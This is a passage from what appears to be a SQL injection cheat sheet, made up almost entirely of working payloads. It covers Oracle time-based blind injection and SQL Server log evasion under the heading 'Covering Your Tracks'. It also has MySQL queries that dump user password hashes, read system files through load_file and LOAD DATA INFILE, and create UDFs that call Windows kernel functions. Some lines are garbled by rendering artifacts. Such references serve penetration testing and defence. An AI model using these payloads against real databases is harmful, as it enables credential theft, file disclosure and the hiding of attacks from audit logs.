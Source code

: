 Sleep for supplied seconds.

- `(SELECT CASE WHEN (NVL(ASCII(SUBSTR((**{INJECTION}**),1,1)),0) = 100) THEN dbms_pipe.receive_message(('xyz'),10) ELSE dbms_pipe.receive_message(('xyz'),1) END FROM dual)`

**{INJECTION}** = You want to run the query.

If the condition is true, will response after 10 seconds. If is false, will be delayed for one second.

## Covering Your Tracks

#### SQL Server -sp_password log bypass (S)

SQL Server don't log queries that includes sp_password for security reasons(!). So if you add --sp_password to your queries it will not be in SQL Server logs (*of course still will be in web server logs*, *try to use POST if it's possible*)

## Clear SQL Injection Tests

These tests are simply good for blind sql injection and silent attacks.
1. `product.asp?id=4 (SMO)`
    1. `product.asp?id=5-1`
    2. `product.asp?id=4 OR 1=1 [[NEWLINE]][[NEWLINE]]`
2. `product.asp?name=Book`
    1. `product.asp?name=Bo'%2b'ok`
    2. `product.asp?name=Bo' || 'ok (*OM*)`
    3. `product.asp?name=Book' OR 'x'='x`

## Extra MySQL Notes

- Sub Queries are working only MySQL 4.1+
- Users
    - `SELECT User,Password FROM mysql.user;`
- `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = 'root';`
- `SEL``ECT ... INTO DUMPFILE`
    - `Write quer``y into a **new file **(*can not modify existing file*s)`
- UDF Function
    - `create function LockWorkStation returns integer soname 'user32';`
    - `select LockWorkStation(); [[NEWLINE]]`
    - `create function ExitProcess returns integer soname 'kernel32';`
    - `select exitprocess();`
- `SELECT USER();`
- `SELECT password,USER() FROM mysql.user;`
- First byte of admin hash
    - `SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;`
- Read File
    - `query.php?user=1+union+select+load_file(0x63...),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
- MySQL Load Data infile
    - **By default it's not available !**
        - `create table foo( line blob ); [[NEWLINE]]load data infile 'c:/boot.ini' into table foo; [[NEWLINE]]select * from foo;`
- More Timing in MySQL
- `select benchmark( 500000, sha1( 'test' ) );`
- `query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`
- `select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' ); [[NEWLINE]]`**Enumeration data, Guessed Brute Force**
    - `select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`
